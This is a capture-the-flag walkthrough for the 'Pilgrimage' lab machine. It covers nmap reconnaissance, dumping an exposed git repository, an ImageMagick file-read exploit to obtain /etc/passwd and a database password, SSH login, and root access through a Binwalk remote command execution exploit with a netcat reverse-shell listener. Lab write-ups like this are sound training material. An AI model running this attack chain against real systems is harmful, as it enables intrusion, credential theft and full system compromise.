 <h1 align="center">
  <br>
  <img src="assets/Pilgrimage.png" alt="HideNSeek" width="100">
  <br>
  <br>
  <span>Pilgrimage</span>
</h1>

# Scanning
Nmap Scan
```
nmap -sC -sV -A -T4 10.10.11.219
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Pilgrimage - Shrink Your Images
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the result we can see that port 22 and 80 is opened and that the Git repository for the web application is exposed, we can extract it with [Git Dumper](https://github.com/arthaud/git-dumper)

```
python3 git_dumper.py http://pilgrimage.htb/.git/ Dump
```
When looking through the files we find this line indicating that the page uses ImageMagick to shrink images
```php
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
```

We find this [ImageMagick Vulnerability](https://github.com/Sybil-Scan/imagemagick-lfi-poc) which can read files utilizing this functionality.

# Gaining Access
We use the ImageMagick vulnerability to read ```/etc/passwd``` and find the emily user that we will target ```emily:x:1000:1000:emily,,,:/home/emily:/bin/bash```<br>

Also from the Git dump we find that the application accesses a database ```$db = new PDO('sqlite:/var/db/pilgrimage');```, using the vulnerability we read this file and find the password for emily<br>

We can now connect via ssh ```ssh emily@ip```

# Privilege Escalation
From the ```ps aux``` output we can see an unusual shell script file  being run by root ```/bin/bash /usr/sbin/malwarescan.sh```.
```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
As we can see that file uses binwalk on the files that are added to ```/var/www/pilgrimage.htb/shrunk/```<br>
We check the binwalk version to see if it has known vulnerabilities and it has [Binwalk v2.3.2 - Remote Command Execution](https://www.exploit-db.com/exploits/51249)

We create the exploit:
```
python3 51249.py image.png <ip> <port>
```

We need to set up a netcat listener:
```
nc -nvlp <port>
```

We upload the file to ```/var/www/pilgrimage.htb/shrunk/``` using scp:
```
scp binwalk_exploit.png emily@<ip>:/var/www/pilgrimage.htb/shrunk
```
Once the file upload is complete, the connection should be established



